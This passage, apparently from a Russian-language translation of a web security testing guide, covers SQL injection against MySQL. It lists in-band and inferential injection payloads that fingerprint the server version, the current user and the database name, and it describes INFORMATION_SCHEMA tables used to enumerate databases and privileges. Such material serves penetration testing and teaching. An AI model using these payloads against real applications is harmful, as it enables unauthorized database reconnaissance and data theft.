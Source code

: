 Inferential injection:

`1 AND @@version like '4.0%'`

Ответ будет содержать что-то в строках:

`5.0.22-log`

#### Вход в систему Пользователь

MySQL Server использует два типа пользователей.

1. [USER()](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_user): пользователь подключен к серверу MySQL.
2. [CURRENT_USER()](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_current-user): внутренний пользователь, который выполняет запрос.

Есть некоторая разница между 1 и 2. Главное, чтобы анонимный пользователь мог подключаться (если это разрешено) с любым именем, но внутренний пользователь MySQL - это пустое имя (''). Другое отличие состоит в том, что сохраненная процедура или сохраненная функция выполняются как пользователь-создатель, если не объявлено в другом месте. Об этом можно узнать, используя `CURRENT_USER`.

In band injection:

`1 AND 1=0 UNION SELECT USER()`

Inferential injection:

`1 AND USER() like 'root%'`

Ответ будет содержать что-то в строках:

`user@hostname`

#### Имя базы данных в использовании

Существует нативная функция `DATABASE ()`

In band injection:

`1 AND 1=0 UNION SELECT DATABASE()`

Inferential injection:

`1 AND DATABASE() like 'db%'`

> Expected Result, A string like this:
>
> `dbname`

#### INFORMATION_SCHEMA

Из MySQL 5.0 вид назван [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html) был создан. Это позволяет нам получать всю информацию о базах данных, таблицах и столбцах, а также о процедурах и функциях.

| Tables_in_INFORMATION_SCHEMA | DESCRIPTION |
|------------------------------|-------------|
| SCHEMATA  | All databases the user has (at least) SELECT_priv |
| SCHEMA_PRIVILEGES  | The privileges the user has for each DB |
| TABLES  | All tables the user has (at least) SELECT_priv |
| TABLE_PRIVILEGES | The privileges the user has for each table |
| COLUMNS | All columns the user has (at least) SELECT_priv |
| COLUMN_PRIVILEGES | The privileges the user has for each column |
| VIEWS | All columns the user has (at least) SELECT_priv |
| ROUTINES | Procedures and functions (needs EXECUTE_priv) |